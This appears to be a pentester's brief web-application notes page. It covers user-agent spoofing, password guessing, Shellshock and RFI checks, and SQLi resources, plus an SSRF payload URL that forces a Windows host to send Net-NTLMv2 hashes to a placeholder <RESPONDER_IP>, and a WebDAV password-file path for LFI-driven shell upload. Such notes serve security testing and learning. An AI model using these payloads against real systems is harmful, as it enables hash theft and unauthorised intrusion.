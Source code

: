 ```yaml
---
description: Rough notes on web applications
---
```


# Web Application



### Web Application

* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If a web application is vulnerable to SSRF and the host is Windows, you may be able to retrieve a Net-NTLMv2 hash. The following command assumes that the web server is running on TCP/8080:
  * `http://:8080/?url=http://127.0.0.1:8080/?url=http://<RESPONDER_IP>`
  * [This attack is explained amazingly in this blog post](https://blog.blazeinfosec.com/leveraging-web-application-vulnerabilities-to-steal-ntlm-hashes-2/).
* If a WebDav directory is discovered during enumeration then it should be noted that an LFI vulnerability could be used to obtain the password and upload a PHP shell. The following is an example of a Webdav password location:
  * `/var/www/html/webdav/passwd.dav`
  * [HackTricks has a great guide](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) on uploading a shell with Curl or other methods of exploitation.
* If /cgi-bin/ is identified then ensure you look for common file extensions like `.sh`
  * This directory exists when Apache gives a file over to bash or another scripting language.
  * There is an NSE script which exists to verify if Shellshock is detected.
* When testing[ Remote File Inclusion](../../../web-application/remote-file-inclusion-rfi.md) keep in mind that the port being tested matters.&#x20;
  * Use a common port such as 80 or 443 on your Python3 server when testing.

### SQL Injection (SQLi)

* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Ensure your syntax is correct with Oracle because it can be a pain.

